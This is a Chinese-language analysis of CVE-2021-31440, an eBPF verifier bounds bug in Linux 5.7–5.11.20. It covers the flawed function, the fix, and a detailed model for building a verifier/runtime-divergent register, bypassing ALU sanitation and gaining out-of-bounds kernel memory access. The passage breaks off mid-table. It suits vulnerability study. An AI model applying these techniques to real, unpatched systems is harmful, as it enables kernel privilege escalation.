# 【Kernel Exploit】CVE-2021-31440 漏洞分析

## 1. 测试环境

**测试版本**：Linux-5.11.20 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.11.20/01/bzImage) 和 Linux-5.11.16 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.11.16/01/bzImage)

笔者测试的内核版本是 `Linux (none) 5.11.20 #1 SMP Fri Feb 20 12:45:04 CST 2026 x86_64 GNU/Linux` 和 `Linux (none) 5.11.16 #1 SMP Fri Feb 6 14:46:50 CST 2026 x86_64 GNU/Linux`。

**编译选项**：开启`CONFIG_BPF`、`CONFIG_BPF_LSM`、`CONFIG_BPF_SYSCALL`、`CONFIG_BPF_JIT`、`CONFIG_BPF_JIT_ALWAYS_ON`、`CONFIG_BPF_JIT_DEFAULT_ON`、`CONFIG_ARCH_WANT_DEFAULT_BPF_JIT`、`CONFIG_BPF_PRELOAD`、`CONFIG_CGROUP_BPF`、`CONFIG_IPV6_SEG6_BPF`、`CONFIG_BPFILTER`、`CONFIG_BPF_STREAM_PARSER`、`CONFIG_LWTUNNEL_BPF`、`CONFIG_HAVE_EBPF_JIT`、`CONFIG_BPF_EVENTS`、`CONFIG_BPF_KPROBE_OVERRIDE`、`CONFIG_THREAD_INFO_IN_TASK`、`CONFIG_MEMCG`、`CONFIG_MEMCG_KMEM`、`CONFIG_CGROUPS`、`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_FUSE_FS`、`CONFIG_USERFAULTFD`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_E1000`、`CONFIG_E1000E`、`CONFIG_PACKET`、`CONFIG_PACKET_DIAG`、`CONFIG_USER_NS`、`CONFIG_NET_NS`、`CONFIG_NAMESPACES`、`CONFIG_CHECKPOINT_RESTORE`、`CONFIG_IPC_NS`选项。完整配置参考[(5.11.20).config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.11.20/01/.config) 和 [(5.11.16).config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.11.16/01/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

## 2. 漏洞背景

### 2-1. Verifier 概述

eBPF（Extended Berkeley Packet Filter）是 Linux 内核中的一个通用虚拟机，允许用户空间程序在内核中安全地执行沙箱化的字节码。由于 eBPF 程序直接在内核上下文中运行，其安全性完全依赖于一个静态验证器（verifier）——该组件在程序加载时对字节码进行严格的静态分析，确保程序不会破坏内核稳定、泄露敏感信息或执行非预期操作。Verifier 的设计目标是提供形式化级别的安全保障，它通过抽象解释技术模拟程序所有可能的执行路径，并在每条指令处维护每个寄存器和栈槽的精确类型与数值范围信息。

对于每个寄存器，verifier 维护一个 `struct bpf_reg_state` 结构，其中包含：

- **类型**（`type`）：如 `SCALAR_VALUE`（标量）、`PTR_TO_MAP_VALUE`（指向 map 值的指针）等。
- **64 位有符号范围**（`smin_value`, `smax_value`）。
- **64 位无符号范围**（`umin_value`, `umax_value`）。
- **32 位子寄存器范围**（`s32_min_value`, `s32_max_value`, `u32_min_value`, `u32_max_value`）。
- **未知位掩码**（`var_off`），用于跟踪寄存器的已知位与未知位。

Verifier 通过逐条指令进行抽象解释，在条件跳转处进行分支状态分裂，并合并公共后继状态，最终判断所有路径是否安全。其范围跟踪能力是决定指针运算、数组访问、辅助函数调用是否越界的关键依据。为了在有限时间内完成验证，verifier 必须采用保守近似，而正是这种近似与实际执行语义之间的微小差距，为构造越界原语提供了潜在空间。

### 2-2. 指令语义分歧

eBPF 指令集同时支持 64 位和 32 位操作。当执行 32 位算术指令（如 `BPF_ALU` 类）时，处理器会将 64 位寄存器的高 32 位清零；而 64 位指令（`BPF_ALU64`）则保持完整 64 位值。这种设计允许开发者根据精度需求灵活选择操作模式，但也给 verifier 带来了巨大挑战——它必须准确跟踪两种模式下的范围关系，尤其是在混合使用 32 位与 64 位比较和算术指令时，任何不一致都可能导致安全检查失效。

在 verifier 内部，寄存器状态同时维护 64 位和 32 位边界。32 位边界并非总是从 64 位边界简单截断得到，因为 64 位范围可能跨越 32 位空间的边界。例如，当寄存器的 64 位无符号范围为 $$ [\text{umin}, \text{umax}] = [1, 2^{32}] $$ 时，其低 32 位的实际合法取值区间应为 $$ [0, 2^{32}-1] $$（全范围），而非简单的截断结果。正确地推导 32 位边界需要综合考虑 64 位范围的上下界是否全部落在 32 位有符号或无符号域内，否则 verifier 将无法准确反映运行时寄存器的真实取值集合。

历史上，内核在 `commit 3f50f132d840`（"bpf: Verifier, do explicit ALU32 bounds tracking"）中引入了显式的 32 位边界跟踪，但其中的辅助函数 `__reg_combine_64_into_32()` 在推导无符号 32 位边界时存在逻辑缺陷，这正是 **CVE-2021-31440** 的根源所在。

### 2-3. 缺陷函数与时序分析

**CVE-2021-31440** 漏洞位于 `kernel/bpf/verifier.c` 中的静态函数 `__reg_combine_64_into_32()`，其作用是利用 64 位寄存器的已知边界来更新对应的 32 位边界。其原始实现如下（Linux 5.11.20 版本）：

```c
static void __reg_combine_64_into_32(struct bpf_reg_state *reg)
{
    __mark_reg32_unbounded(reg);

    if (__reg64_bound_s32(reg->smin_value) && __reg64_bound_s32(reg->smax_value)) {
        reg->s32_min_value = (s32)reg->smin_value;
        reg->s32_max_value = (s32)reg->smax_value;
    }
    if (__reg64_bound_u32(reg->umin_value))            // <-- 缺陷点
        reg->u32_min_value = (u32)reg->umin_value;
    if (__reg64_bound_u32(reg->umax_value))            // <-- 缺陷点
        reg->u32_max_value = (u32)reg->umax_value;

    __reg_deduce_bounds(reg);
    __reg_bound_offset(reg);
    __update_reg_bounds(reg);
}
```

其中辅助函数 `__reg64_bound_u32(a)` 定义为：

$$ \text{__reg64_bound_u32}(a) = (a > \text{U32_MIN}) \ \&\&\ (a < \text{U32_MAX}) $$

即判断一个 64 位值是否严格落在 32 位无符号范围内 $$ (0, 2^{32} - 1) $$。

**缺陷数学模型**：该函数的逻辑错误在于对 `umin` 和 `umax` 的检查是**相互独立**的。设寄存器当前的 64 位无符号范围为 $$ [L, U] $$，其中 $$ L = \text{umin} $$，$$ U = \text{umax} $$。若存在以下情形：

$$ L \in (0, 2^{32} - 1) \quad \text{且} \quad U \notin (0, 2^{32} - 1) $$

例如当 $$ L = 1 $$，$$ U = 2^{32} $$ 时，由于第一个 `if` 条件成立，`u32_min_value` 被赋值为 $$ 1 $$；而第二个 `if` 条件不成立，`u32_max_value` 保持不变（通常为 $$ 2^{32} - 1 $$ 或上次的值），导致：

$$ \text{u32_min_value} = 1 \quad > \quad \text{u32_max_value} = 2^{32} - 1 $$

从而产生 **矛盾区间** $$ [1, 2^{32} - 1] $$ 看似合理，但该区间实际上并不对应于任何满足原始 64 位范围的值的低 32 位——因为当 64 位值的高位非零时，其低 32 位可以取遍整个 32 位空间，而非被限制在 $$ [1, 2^{32} - 1] $$ 内。

该函数被调用的时机非常关键。调用链如下：

```
do_check_main()
  → do_check_common()
    → do_check()
      → check_cond_jmp_op()
        → reg_set_min_max()
          → __reg_combine_64_into_32()
```

具体地，在 `check_cond_jmp_op()` 中处理条件跳转（如 `if r6 > r2 goto pc+1`）时，verifier 会分别对 `true` 和 `false` 分支创建新的寄存器状态，调用 `reg_set_min_max()` 细化边界，随后在末尾调用 `__reg_combine_64_into_32()` 同步 32 位边界。**CVE-2021-31440** 的触发时序为：通过精心构造的连续比较指令，使 verifier 对某个寄存器的 64 位范围逐步收紧，但 `__reg_combine_64_into_32()` 却错误地将 32 位边界推导为一个矛盾区间，后续 verifier 依赖该错误边界进行安全检查，从而允许本应越界的指针偏移通过验证。

### 2-4. 状态分裂与边界传播

Verifier 采用状态分裂（state splitting）策略来处理条件分支。每当遇到条件跳转，它会复制当前状态为两个新状态，分别对应跳转条件成立（true）和不成立（false），然后独立地更新寄存器范围。这一过程会递归进行，直到所有路径终止或达到指令上限。状态分裂是 verifier 保证完整覆盖所有程序路径的核心机制，但也使得边界跟踪的复杂度大大增加，任何微小的边界推导错误都可能在分裂过程中被放大。

在 `reg_set_min_max()` 中，对于比较操作 `(BPF_JGT) r6 > r2`，verifier 会计算分支条件下 `r6` 的新范围。例如，若 `r6` 原范围为 $$ [1, 2^{63} - 1] $$，与 $$ r2 = \text{0x8fffffff} $$ 比较（无符号大于），则 true 分支中：

$$ \text{umin} = \text{0x90000000},\quad \text{umax} = 2^{63} - 1 $$

此后调用 `__reg_combine_64_into_32()`，由于 $$ \text{umin} = \text{0x90000000} $$ 在 32 位范围内，$$ \text{u32_min} = \text{0x90000000} $$；而 `umax` 不在 32 位范围内，`u32_max` 未被更新，仍为 $$ 2^{32} - 1 $$。结果得到看似合理的 32 位范围 $$ [\text{0x90000000}, 2^{32} - 1] $$，但实际上该范围并不对应于任何 64 位值的低 32 位。

后续若对该寄存器执行 32 位算术操作，verifier 会基于这个错误的 32 位范围进行计算，最终将寄存器约束为看似常量（例如 0），而运行时实际值却可能为 1，从而产生 **verifier 状态与实际执行状态的分歧**。这种分歧正是 **CVE-2021-31440** 能够被利用的核心机制，正是由于状态分裂的存在，错误的边界才得以传播到后续所有相关路径。

### 2-5. 分歧寄存器构造模型

将上述状态分歧具体化为可利用的原语，需要构造一个寄存器，使 verifier 认为其值为 0，但运行时为 1。设该寄存器为 $$ r_6 $$，构造过程如下：

**步骤 1**：通过 map 值加载，使 $$ r_6 $$ 获得一个用户可控的值 $$ x = \text{0x180000000} $$。

**步骤 2**：通过有符号比较 `if r6 >= 1`，verifier 推断 $$ r_6 \in [1, 2^{63} - 1] $$。随后通过无符号比较 `if r6 > 0x8fffffff`，verifier 进一步推断：

$$ r_6 \in [\text{0x90000000}, 2^{63} - 1] $$

**步骤 3**：此时 **CVE-2021-31440** 缺陷函数介入，错误地推导出 32 位范围：

$$ r_6^{(32)} \in [\text{0x90000000}, 2^{32} - 1] $$

**步骤 4**：执行 32 位加法 $$ r_6^{(32)} \leftarrow r_6^{(32)} + \text{0x70000000} $$。根据区间算术，verifier 得到：

$$ r_6^{(32)} \in [\text{0x90000000} + \text{0x70000000}, (2^{32} - 1) + \text{0x70000000}] $$

实际计算中，由于模 32 位回绕，verifier 错误地推导出：

$$ r_6^{(32)} \in [\text{0x00000000}, \text{0x6fffffff}] $$

**步骤 5**：执行 64 位右移 $$ r_6 \leftarrow r_6 \gg 31 $$。由于 verifier 认为 $$ r_6^{(32)} \in [0, \text{0x6fffffff}] $$，其最高位（第 31 位）必为 0，因此右移 31 位的结果恒为 0：

$$ r_6^{\mathcal{V}} = 0 $$

然而，实际运行时，$$ x = \text{0x180000000} $$ 的低 32 位为 $$ \text{0x80000000} $$，加上 $$ \text{0x70000000} $$ 得 $$ \text{0xf0000000} $$，右移 31 位得：

$$ r_6^{\mathcal{R}} = \text{0xf0000000} \gg 31 = 1 $$

至此，成功构造了分歧寄存器：

$$ \boxed{r_6^{\mathcal{V}} = 0,\quad r_6^{\mathcal{R}} = 1} $$

其中上标 $$ \mathcal{V} $$ 表示验证器静态分析的值，$$ \mathcal{R} $$ 表示实际运行时的值。此后凡涉及该寄存器的代数运算，均按此两组值分别处理。

### 2-6. ALU Sanitation 运行时保护

ALU Sanitation 是 eBPF 子系统中的一项运行时安全加固机制，其设计目的是在 verifier 静态检查之外提供第二道防线——在程序实际执行时，对指针运算的操作数进行动态检查，防止因 verifier 漏洞（如 **CVE-2021-31440**）或边界跟踪缺陷导致的越界指针运算。它最早于内核 5.7 版本引入，并在后续版本中持续演进，以应对不断出现的绕过手法。

该机制的核心逻辑是：当一条 ALU 指令的操作数包含一个指针 $$ P $$ 和一个标量寄存器 $$ \text{off_reg} $$ 时，内核会计算一个 **`alu_limit`** 值——即该指针在当前上下文中允许进行加减运算的安全范围。随后，在原始指令之前动态插入一组检查指令，逻辑可形式化表示为：

若 $$ \text{off_reg} > \text{alu_limit} $$ 或 $$ \text{sign}(\text{off_reg}) \neq \text{sign}(\text{alu_limit}) $$，则将 $$ \text{off_reg} $$ 替换为 0，指针运算被清零；否则指针运算正常执行。这种设计使得即使 verifier 存在边界误判，运行时的范围检查仍能阻止越界发生。

该机制在 v5.11.8 之前存在一个整数溢出漏洞（`commit 10d2bb2e6b1d8c` 修复）：当 $$ \text{alu_limit} = 0 $$ 时，`alu_limit - 1` 会下溢为 $$ 2^{32} - 1 $$，导致检查完全失效。这个漏洞意外地为早期版本中 **CVE-2021-31440** 的利用提供了便利，但修复后绕过的难度显著增加。

在 v5.11.16 之后，`commit 7fedb63a8307` 对 ALU Sanitation 进行了重大重构，引入了两项关键变化：

1. **`alu_limit` 计算方式改变**：不再基于指针寄存器的位置计算，而是基于 **offset 寄存器的边界**来确定。设 offset 寄存器的无符号边界为 $$ [\text{umin}, \text{umax}] $$，则 `alu_limit` 由该边界直接推导，例如若 $$ \text{umax} = 1, \text{umin} = 0 $$，则 $$ \text{alu_limit} = 1 $$。这意味着无论指针如何移动，`alu_limit` 只取决于偏移量本身，从而使得许多基于指针预偏移的技巧失效。

2. **常量寄存器替换**：在 JIT 编译阶段，若 verifier 认定某个寄存器为常量，则会将其替换为立即数。例如 `BPF_ALU64_REG(BPF_ADD, REG_2, EXPLOIT_REG)` 若 `EXPLOIT_REG` 被 verifier 认定为 0，则会被改写为 `BPF_ALU64_IMM(BPF_ADD, REG_2, 0)`。这一改动原本是为了防范侧信道利用，但客观上使得依赖“verifier 认为常量为 0、运行时为 1”的利用手法失效。

```c
// commit 7fedb63a8307 中的关键逻辑
bool off_is_imm = tnum_is_const(off_reg->var_off);
alu_state |= off_is_imm ? BPF_ALU_IMMEDIATE : 0;
isimm = aux->alu_state & BPF_ALU_IMMEDIATE;
...
if (isimm) {
    *patch++ = BPF_MOV32_IMM(BPF_REG_AX, aux->alu_limit);
} else {
    // 插入完整的 alu_limit 检查指令序列
    ....
}
```

这两处改动共同阻断了 **CVE-2021-31440** 的已知利用路径，迫使研究人员探索新的绕过方法。

### 2-7. 绕过 ALU Sanitation 的数学模型

本节给出两种绕过 ALU Sanitation 的数学构造，分别适用于不同的内核版本。第一种方法通过指针预偏移直接绕过检查，适用于 v5.11.8 至 v5.11.16；第二种方法利用辅助函数的副作用，适用于 v5.11.17 及以后。最后，我们给出统一的越界指针构造模型，将上述绕过方法转化为可用的内存访问原语。

#### 2-7-1. 预偏移绕过模型

在 `commit 10d2bb2e6b1d8c` 修复整数溢出后，仍可利用指针预偏移技巧。该技巧的核心思想是：**通过预先对指针加上一个足够大的常量偏移 $$ K $$，使 `alu_limit` 变为非零值**，从而避免触发 ALU Sanitation 的拦截逻辑。设分歧寄存器 $$ r_6 $$ 满足：

$$ r_6^{\mathcal{V}} = 0,\quad r_6^{\mathcal{R}} = 1. \tag{1} $$

构造寄存器 $$ r_8 = r_6 \times K $$，其中 $$ K = \text{0x1000} $$。根据乘法运算的线性性质：

$$ r_8^{\mathcal{V}} = 0 \times K = 0,\quad r_8^{\mathcal{R}} = 1 \times K = K. \tag{2} $$

设 Map 值区域基址为 $$ p $$（存储于寄存器 $$ r_2 $$），执行如下指针运算序列：

1. $$ r_7 \leftarrow p + K $$，此时 JIT 记录 `alu_limit = K`。
2. $$ r_7 \leftarrow r_7 - r_8 $$。

代入两种语义，得：

$$ r_7^{\mathcal{R}} = p + K - K = p, \tag{3} $$
$$ r_7^{\mathcal{V}} = p + K - 0 = p + K. \tag{4} $$

JIT 插入的运行时检查条件为：若 $$ r_8^{\mathcal{R}} > K $$ 则将 $$ r_8 $$ 置零。由于 $$ r_8^{\mathcal{R}} = K $$，不满足大于条件，检查被绕过。因此验证器认为指针仍为 $$ p+K $$（仍在 Map 值区域内），而实际指针已回退到 $$ p $$。

#### 2-7-2. 辅助函数间接绕过模型

在 `commit 7fedb63a8307` 之后，上述预偏移技巧失效。此时一种有效的替代手段是**利用 BPF 辅助函数 `bpf_skb_load_bytes_relative()` 的副作用构造越界写**。该技巧的核心思想是：不直接在指针运算层面与 ALU Sanitation 对抗，而是利用辅助函数内部对长度参数的检查与 verifier 之间的不一致性，构造出 verifier 认可但运行时实际越界的写操作。这种手法最早在 CVE-2022-23222 中被公开，同样适用于绕过因 **CVE-2021-31440** 而产生的分歧状态。

设分歧寄存器 $$ r_6 $$ 满足 (1)。构造长度参数：

$$ L = 8 + r_6. \tag{5} $$

则：
$$ L^{\mathcal{V}} = 8 + 0 = 8,\quad L^{\mathcal{R}} = 8 + 1 = 9. \tag{6} $$

调用辅助函数：
$$ \text{bpf_skb_load_bytes_relative}(\text{skb}, \text{offset}, \text{buf}, L, \text{flags}). $$

该函数内部会执行：
$$ \text{memset}(\text{buf}, 0, L). \tag{7} $$

当 $$ L^{\mathcal{R}} = 9 $$ 时，`memset` 会多写 1 字节，覆盖栈上紧邻 `buf` 的相邻数据。这种“溢出”发生在栈上局部变量之间，不受 KASAN 等全局越界检测影响。

**具体利用过程**：设栈上保存了一个指向 `bpf_array` 内部字段的指针 $$ \text{ptr} $$，位于 `buf` 之后（例如 `buf` 在 `r10-16`，`ptr` 在 `r10-8`）。第一次调用时，`ptr` 指向 `&ctrl_map->value[0] + 0x40`，即 `bpf_array` 中偏移 $$ \text{0x150} $$ 处：

$$ \text{ptr} = \text{base} + \text{0x150}. $$

由于 (7) 多写了 1 字节，`ptr` 的低字节被清零：

$$ \text{ptr}' = \text{base} + (\text{0x150} \ \&\ \sim \text{0xFF}) = \text{base} + \text{0x100}. $$

随后从栈上重新加载 `ptr'`，减去 $$ \text{0x40} $$ 得到：

$$ \text{ptr}'' = \text{ptr}' - \text{0x40} = \text{base} + \text{0xC0}. $$

第二次调用相同辅助函数，同样由于 $$ L^{\mathcal{R}} = 9 $$，$$ptr''$$ 的低字节再次被清零：

$$ \text{ptr}''' = \text{base} + (\text{0xC0} \ \&\ \sim \text{0xFF}) = \text{base} + \text{0x00} = \text{base}. $$

此时栈上指针指向 `bpf_array` 结构的起始地址 $$ \text{base} $$。

#### 2-7-3. 越界指针构造模型

在获得伪装指针（通过预偏移或辅助函数）后，可进一步构造指向 `struct bpf_array` 头部的越界指针。以预偏移方法为例（辅助函数方法得到类似结果），定义头部大小为常量 $$ H = \text{0x110} $$。构造另一个缩放寄存器：

$$ r_9 = r_6 \times H, \quad \text{则 } r_9^{\mathcal{V}} = 0,\ r_9^{\mathcal{R}} = H. \tag{8} $$

执行减法：

$$ r_7 \leftarrow r_7 - r_9. $$

合并 (3)(4)(8) 得到：

$$ r_7^{\mathcal{R}} = p - H,\quad r_7^{\mathcal{V}} = p + K. \tag{9} $$

设 Map 值区域的合法访问区间为 $$ [p, p+S) $$，且 $$ S > K $$ 以保证验证通过。则运行时实际偏移量为：

$$ \delta_{\mathcal{R}} = r_7^{\mathcal{R}} - p = -H < 0, \tag{10} $$

验证器检查的偏移量为：

$$ \delta_{\mathcal{V}} = r_7^{\mathcal{V}} - p = K \ge 0. \tag{11} $$

由于 $$ \delta_{\mathcal{V}} \in [0, S) $$，验证器允许后续内存访问；而实际访问地址 $$ p-H $$ 位于合法区间之外，恰好指向 `struct bpf_array` 的起始地址。进一步地，任取偏移量 $$ \Delta $$，可访问：

$$ \text{addr} = r_7^{\mathcal{R}} + \Delta = p - H + \Delta. \tag{12} $$

结合内核信息泄露确定 $$ p $$ 与目标内核地址之间的相对偏移，该表达式可用于读取或写入内核任意地址，从而将越界访问能力扩展为任意内存操作。无论采用预偏移还是辅助函数方法，最终均可获得类似形式的越界指针，并利用 (12) 完成后续的内存操作原语构建。

### 2-8. 影响范围

**CVE-2021-31440** 影响 Linux 内核版本 **v5.7 至 v5.11.20**。漏洞引入的 commit 为 `3f50f132d840`（"bpf: Verifier, do explicit ALU32 bounds tracking"），该 commit 于 v5.7 合并。修复 commit 为 `10bf4e83167c`（"bpf: Fix propagation of 32 bit unsigned bounds from 64 bit bounds"），于 v5.11.21 发布，其核心改动是将 `__reg_combine_64_into_32()` 中对无符号范围的更新合并为单一条件：

```diff
-	if (__reg64_bound_u32(reg->umin_value))
+	if (__reg64_bound_u32(reg->umin_value) && __reg64_bound_u32(reg->umax_value)) {
		reg->u32_min_value = (u32)reg->umin_value;
-	if (__reg64_bound_u32(reg->umax_value))
		reg->u32_max_value = (u32)reg->umax_value;
+	}
```

此补丁确保只有当 64 位范围的上下界**均**落在 32 位无符号范围内时，才更新 32 位边界，从而避免非法区间的产生。数学上，修正后的条件为：

$$ \text{update_u32_bounds} \iff (L \in (0, 2^{32} - 1)) \ \&\&\ (U \in (0, 2^{32} - 1)), $$

其中 $$ L = \text{umin}, U = \text{umax} $$。

主流发行版中，Ubuntu 21.04（kernel 5.11.x）、Fedora 34（kernel 5.12.x）等均受 **CVE-2021-31440** 影响，直至更新至包含补丁的内核版本。对于无法立即升级的系统，可以通过禁用 BPF 或限制非特权用户加载 BPF 程序来缓解风险。

### 2-9. 本质总结

**CVE-2021-31440** 的根本原因在于 **64 位数值范围与 32 位数值范围之间不存在简单的投影映射关系**。设 64 位无符号区间为 $$ [L, U] $$，其对应的 32 位值域并非简单地由 $$ L \bmod 2^{32} $$ 和 $$ U \bmod 2^{32} $$ 界定。正确推导 32 位边界需考虑三种情况：

1. **完全包含**：若 $$ 0 \le L \le U < 2^{32} $$，则 32 位范围为 $$ [L, U] $$。
2. **完全跨越**：若 $$ L \ge 2^{32} $$，则低 32 位范围应保守设置为 $$ [0, 2^{32} - 1] $$。
3. **部分重叠**：若 $$ L < 2^{32} \le U $$，则低 32 位可取 $$ [L, 2^{32} - 1] \cup [0, U \bmod 2^{32}] $$，通常保守处理为全范围 $$ [0, 2^{32} - 1] $$。

有符号范围（`smin_value` / `smax_value`）的处理在之前的 commit 中已得到修正（`b02709587ea3`），但无符号范围却遗漏了同样的检查，导致不对称性。这一疏忽为利用者提供了可乘之机，通过巧妙设计的比较序列，使 verifier 状态与运行时状态产生分歧，最终绕过安全检查，实现越界内存访问。修复措施统一了两类范围的推导逻辑，从根源上消除了此类边界分歧。

与此同时，ALU Sanitation 作为 verifier 静态检查的运行时补充，不断演进以封堵各类绕过手法。从数学上看，verifier 静态分析的本质是在抽象域上进行区间近似，而运行时环境的实际行为受具体指令语义和硬件特性约束，两者之间的任何不一致性都可能被利用。无论是 **CVE-2021-31440** 中的边界推导错误，还是辅助函数参数校验与 verifier 静态分析之间的差异，都可能成为构建越界访问原语的切入点。修复措施虽已消除本漏洞的根源，但 eBPF 安全博弈的持续演进表明，彻底消除这类漏洞需要更加系统的形式化验证与设计方法。未来，在 verifier 中引入更严谨的区间抽象理论，并加强对辅助函数参数的统一验证，将是提升 eBPF 安全性的重要方向。

> 📌 下一章将系统介绍 eBPF 的整体架构、`bpf()` 系统调用、Map 操作等基础知识，帮助读者建立完整的上下文。

## 3. eBPF 基础

第二章深入剖析了 **CVE-2021-31440** 的根源——Verifier 在处理 32 位与 64 位边界同步时，因 `__reg_combine_64_into_32` 函数对无符号范围的独立检查逻辑缺陷，导致寄存器状态出现矛盾区间。在进一步探讨这一缺陷如何被构造利用并产生实质性影响之前，有必要系统梳理 eBPF 子系统的整体架构、核心对象和用户态编程接口。本章将依次介绍 eBPF 程序的生命周期、`bpf()` 系统调用的完整用法、Map 对象的操作方式，以及 Verifier 的工作流程，为后续章节的源码分析和利用链构造奠定基础。

### 3-1. eBPF 程序生命周期

一个 eBPF 程序从编写到执行，经历以下阶段：

```mermaid
flowchart TD
    A[编写字节码] --> B[bpf&#40;BPF_PROG_LOAD&#41;]
    B --> C{Verifier 检查}
    C -- 通过 --> D[JIT 编译或解释器就绪]
    C -- 拒绝 --> E[返回负值, 日志记录原因]
    D --> F[挂载到事件钩子]
    F --> G[事件触发时执行]
    G --> H[通过 Map 与用户态交互]
    H --> I[close&#40;prog_fd&#41; 卸载]
```

**阶段说明**：

1. **编写字节码**：开发者使用 eBPF 指令集（`struct bpf_insn` 数组）编写程序逻辑，或通过 LLVM/clang 从 C 源码编译为 eBPF 字节码。
2. **加载**：通过 `bpf(BPF_PROG_LOAD, ...)` 将字节码提交给内核。内核首先进行 Verifier 静态分析，通过后分配 `struct bpf_prog` 结构，并可选地进行 JIT 编译。
3. **挂载（attach）**：将程序绑定到指定的内核事件钩子上，如网络套接字（`BPF_PROG_TYPE_SOCKET_FILTER`）、kprobe、tracepoint、XDP 等。
4. **执行**：当事件触发时，内核调用 eBPF 程序的解释器或 JIT 生成的机器码。
5. **卸载**：通过 `close(prog_fd)` 释放程序，或通过 detach 操作解除绑定。

整个过程中，用户态与内核态通过 **Map** 进行数据交换，Map 的生命周期独立于程序，可以跨程序共享。

### 3-2. `bpf()` 系统调用详解

`bpf()` 是 eBPF 子系统的唯一系统调用入口，原型如下：

```c
#include <linux/bpf.h>

int bpf(int cmd, union bpf_attr *attr, unsigned int size);
```

`cmd` 可取以下主要值（按功能分类）：

**程序相关命令**

| 命令              | 功能                               |
| ----------------- | ---------------------------------- |
| `BPF_PROG_LOAD`   | 验证并加载 eBPF 程序，返回 prog_fd |
| `BPF_PROG_ATTACH` | 将程序挂载到 cgroup 或其他钩子     |
| `BPF_PROG_DETACH` | 解除挂载                           |
| `BPF_PROG_QUERY`  | 查询挂载点的程序信息               |

**Map 相关命令**

| 命令                             | 功能                           |
| -------------------------------- | ------------------------------ |
| `BPF_MAP_CREATE`                 | 创建 Map，返回 map_fd          |
| `BPF_MAP_LOOKUP_ELEM`            | 根据键查找值                   |
| `BPF_MAP_UPDATE_ELEM`            | 更新或插入键值对               |
| `BPF_MAP_DELETE_ELEM`            | 删除指定键                     |
| `BPF_MAP_GET_NEXT_KEY`           | 获取下一个键（用于遍历）       |
| `BPF_MAP_LOOKUP_AND_DELETE_ELEM` | 原子查找并删除（部分类型支持） |

**对象管理命令**

| 命令                     | 功能                                              |
| ------------------------ | ------------------------------------------------- |
| `BPF_OBJ_PIN`            | 将 map_fd/prog_fd 持久化到 bpffs（`/sys/fs/bpf`） |
| `BPF_OBJ_GET`            | 从 bpffs 获取已持久化的 fd                        |
| `BPF_OBJ_GET_INFO_BY_FD` | 获取对象详细信息                                  |

**常用封装函数**

在实际开发中，通常将 `bpf()` 系统调用封装为更易用的函数。以下是最常用的几个：

```c
/* 创建 Map */
int bpf_create_map(enum bpf_map_type type, int key_size, int value_size, int max_entries) {
    union bpf_attr attr = {
        .map_type    = type,
        .key_size    = key_size,
        .value_size  = value_size,
        .max_entries = max_entries,
    };
    return bpf(BPF_MAP_CREATE, &attr, sizeof(attr));
}

/* 更新 Map 中的键值对 */
int bpf_update_elem(int fd, const void *key, const void *value, uint64_t flags) {
    union bpf_attr attr = {
        .map_fd = fd,
        .key    = ptr_to_u64(key),
        .value  = ptr_to_u64(value),
        .flags  = flags,
    };
    return bpf(BPF_MAP_UPDATE_ELEM, &attr, sizeof(attr));
}

/* 查找 Map 中的键 */
int bpf_lookup_elem(int fd, const void *key, void *value) {
    union bpf_attr attr = {
        .map_fd = fd,
        .key    = ptr_to_u64(key),
        .value  = ptr_to_u64(value),
    };
    return bpf(BPF_MAP_LOOKUP_ELEM, &attr, sizeof(attr));
}

/* 删除 Map 中的键 */
int bpf_delete_elem(int fd, const void *key) {
    union bpf_attr attr = {
        .map_fd = fd,
        .key    = ptr_to_u64(key),
    };
    return bpf(BPF_MAP_DELETE_ELEM, &attr, sizeof(attr));
}

/* 获取 Map 中下一个键（用于遍历） */
int bpf_get_next_key(int fd, const void *key, void *next_key) {
    union bpf_attr attr = {
        .map_fd   = fd,
        .key      = ptr_to_u64(key),
        .next_key = ptr_to_u64(next_key),
    };
    return bpf(BPF_MAP_GET_NEXT_KEY, &attr, sizeof(attr));
}
```

这些封装函数隐藏了 `union bpf_attr` 的细节，使得用户态代码更清晰。

**典型调用序列**

以下序列图展示了用户态加载一个 eBPF 程序并与 Map 交互的典型过程：



### 3-3. BPF Maps 详解

Map 是 eBPF 最重要的数据抽象，支持多种底层实现：

| Map 类型                         | 特点                       | 用途         |
| -------------------------------- | -------------------------- | ------------ |
